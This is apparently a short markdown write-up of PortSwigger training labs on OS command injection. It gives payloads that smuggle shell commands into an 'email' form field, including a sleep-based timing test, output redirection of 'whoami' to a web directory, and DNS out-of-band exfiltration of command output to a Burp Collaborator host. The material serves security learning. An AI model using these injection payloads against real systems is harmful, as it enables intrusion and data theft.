


# Portswigger Writeups

## Lab 1: Simple Case

Very simple. Check stock is vulnerable:



## Lab 2: Time Delay via Sleep

To solve, cause a 10 second delay. There is a 'Submit feedback' function.


Test each parameter, and find that using the concat function `||` works with the `email` parameter. 

`email=test@test.com||sleep+10

## Lab 3: Output Redirection

Blind OS command execution, and response is not returned. To solve, execute `whoami` and retrieve output. 

This lab gives us a writeable directory at `/var/www/images`. Pretty straightforward.

Abusing the `email` parameter again, just do `||whoami>/var/www/images/test.txt`. When the home page is loaded, I saw that it uses a `filename` parameter:



Using this, change it to `filename=test.txt` to solve the lab. 

## Lab 4: Out of Band Interaction

This is pretty simple. One can use `curl` or `wget` to trigger a response to an external server. Since the lab requires a DNS lookup to be done, use `nslookup`.

`email=x||nslookup+burp.URL||`

## Lab 5: Out of Band Exfiltration

One can use a template literal \` to solve this.

```
email=test||nslookup+`whoami`.URL||`
```
